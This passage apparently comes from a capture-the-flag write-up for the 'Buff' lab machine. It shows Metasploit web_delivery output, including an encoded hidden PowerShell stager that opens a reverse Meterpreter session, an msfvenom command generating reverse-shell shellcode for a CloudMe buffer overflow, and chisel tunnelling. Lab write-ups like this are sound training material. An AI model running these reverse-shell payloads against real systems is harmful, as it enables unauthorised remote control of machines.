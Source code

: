 ## Meterpreter 

You can set meterpreter after access gained using `exploit/multi/scripts/web_delivery` module,set `targets` to `PSH`, set `payload` to `windows/x64/meterpreter/reverse_tcp`, and set your information lhost,lport, also rsvhost. 
run the module and paste the result will be like this

```
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Using URL: http://10.10.14.15:8080/mVVygiBAzBtT
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUA........
[*] 10.10.10.198     web_delivery - Delivering AMSI Bypass (1389 bytes)
[*] 10.10.10.198     web_delivery - Delivering Payload (3737 bytes)
[*] Sending stage (200774 bytes) to 10.10.10.198
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.198:49690) at 2023-10-16 05:48:56 -0400

msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x64/windo  BUFF\shaun @ BUFF  10.10.14.15:4444 -> 10.10.
            ws                                        10.198:49690 (10.10.10.198
                                                      )

msf6 exploit(multi/script/web_delivery) > 
```

## Privilege Escalation 
The machine have CloudMe_1112.exe in shaun home. as we know `cloudme` is a Cloud File Server, the version of cloudme that used is 1.11.2.
we can exploit the cloudme 1.11.2 with this exploit below 
[CloudMe 1.11.2 - Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/48389)

we just need to modify the buffer payload using msfvenom
`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload`


but hold on! before run the exploit you must know that port 8888 run localy. we need to tunneling first 

### tunnel
we can use https://github.com/jpillora/chisel for tunneling. download and upload chisel.exe to machine using metasploit `upload` command.
